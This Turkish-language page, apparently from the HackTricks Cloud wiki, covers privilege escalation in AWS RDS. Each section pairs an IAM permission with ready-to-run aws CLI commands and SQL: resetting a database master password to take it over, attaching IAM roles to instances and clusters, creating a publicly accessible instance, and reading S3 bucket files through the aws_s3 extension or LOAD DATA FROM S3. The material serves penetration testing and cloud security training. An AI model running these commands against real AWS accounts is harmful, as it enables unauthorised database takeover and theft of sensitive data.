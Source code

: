 # AWS - RDS Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## RDS - İlişkisel Veritabanı Servisi

RDS hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Bu izinle bir saldırgan **ana kullanıcının şifresini değiştirebilir** ve veritabanı içindeki oturumu değiştirebilir:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Veritabanına **ulaşabilmeniz** gerekecek (genellikle yalnızca iç ağlardan erişilebilirler).
{% endhint %}

**Olası Etki:** Veritabanlarında hassas bilgileri bulmak.

### rds-db:connect

[**belgelere**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) göre, bu izne sahip bir kullanıcı DB örneğine bağlanabilir.

### RDS Rolü IAM izinlerini kötüye kullanma

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`** komutunu çalıştırdığınızda **`rdsadmin`** adında bir veritabanı bulursanız, bir **AWS postgresql veritabanası** içinde olduğunuzu bilirsiniz.
{% endhint %}

Öncelikle bu veritabanının başka bir AWS hizmetine erişim için kullanılıp kullanılmadığını kontrol edebilirsiniz. Bunu, kurulu uzantılara bakarak kontrol edebilirsiniz:
```sql
SELECT * FROM pg_extension;
```
Eğer **`aws_s3`** gibi bir şey bulursanız, bu veritabanının **S3 üzerinde bir tür erişime sahip olduğunu** varsayabilirsiniz (diğer uzantılar **`aws_ml`** ve **`aws_lambda`** gibi).

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izinleriniz varsa, **`AssociatedRoles`** alanında **kümenin herhangi bir IAM Rolü ile ilişkilendirilip ilişkilendirilmediğini** görebilirsiniz. Varsa, veritabanının **diğer AWS hizmetlerine erişim için hazırlandığını** varsayabilirsiniz. **Rolün adı** (veya rolün **izinlerini** alabiliyorsanız) temelinde, veritabanının ne tür ek erişimlere sahip olduğunu **tahmin edebilirsiniz**.

Artık, **bir bucket içindeki bir dosyayı okumak için** tam yolu bilmeniz gerekiyor. Bunu şu şekilde okuyabilirsiniz:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Eğer **ham AWS kimlik bilgilerine** sahip olsaydınız, bunları S3 verilerine erişmek için de kullanabilirdiniz:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **S3'e erişebilmek için herhangi bir parametre grubu değişkenini değiştirmeye ihtiyaç duymaz**.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Bir mysql içinde **`SELECT User, Host FROM mysql.user;`** sorgusunu çalıştırdığınızda ve **`rdsadmin`** adında bir kullanıcı varsa, **AWS RDS mysql db** içinde olduğunuzu varsayabilirsiniz.
{% endhint %}

Mysql içinde **`show variables;`** komutunu çalıştırın ve **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** gibi değişkenlerin değerleri varsa, veritabanasının S3 verilerine erişmeye hazır olduğunu varsayabilirsiniz.

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izniniz varsa, kümenin herhangi bir **ilişkili rolü** olup olmadığını kontrol edebilirsiniz; bu genellikle AWS hizmetlerine erişim anlamına gelir.

Artık, **bir bucket içindeki dosyayı okumak için** tam yolu bilmeniz gerekiyor. Bunu şu şekilde okuyabilirsiniz:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` ve `iam:PassRole` izinlerine sahip bir saldırgan, **mevcut bir RDS örneğine belirli bir rol ekleyebilir**. Bu, saldırgana **hassas verilere erişim sağlama** veya örnekteki verileri değiştirme imkanı verebilir.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya verilere yetkisiz değişiklikler.\
Bazı veritabanlarının, parametre gruplarında rol ARN'sinin belirtilmesi gibi ek yapılandırmalara ihtiyaç duyduğunu unutmayın, örneğin Mysql.

### `rds:CreateDBInstance`

Bu izinle bir saldırgan, zaten var olan ve bir **IAM rolü** eklenmiş bir **küme içinde yeni bir örnek** oluşturabilir. Ana kullanıcı şifresini değiştiremeyecek, ancak yeni veritabanı örneğini internete açma olasılığı olabilir:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

`rds:CreateDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **belirtilen bir rol ile yeni bir RDS örneği oluşturabilir**. Saldırgan daha sonra potansiyel olarak **hassas verilere erişebilir** veya örnekteki verileri değiştirebilir.

{% hint style="warning" %}
Eklemek için rol/örnek profili ile ilgili bazı gereksinimler ( [**buradan**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html) ):

* Profil hesabınızda mevcut olmalıdır.
* Profilin, Amazon EC2'nin üstlenme iznine sahip olduğu bir IAM rolü olmalıdır.
* Örnek profil adı ve ilişkili IAM rol adı `AWSRDSCustom` ön eki ile başlamalıdır.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Olası Etki**: RDS örneğindeki hassas verilere erişim veya verilere yetkisiz değişiklikler.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **mevcut bir RDS örneğine belirli bir rol ekleyebilir**. Bu, saldırgana **hassas verilere erişim** sağlama veya örnek içindeki verileri değiştirme imkanı verebilir.

{% hint style="warning" %}
DB örneği, bunun için bir kümenin dışında olmalıdır
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Olası Etki**: RDS örneğindeki hassas verilere erişim veya verilere yetkisiz değişiklikler.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
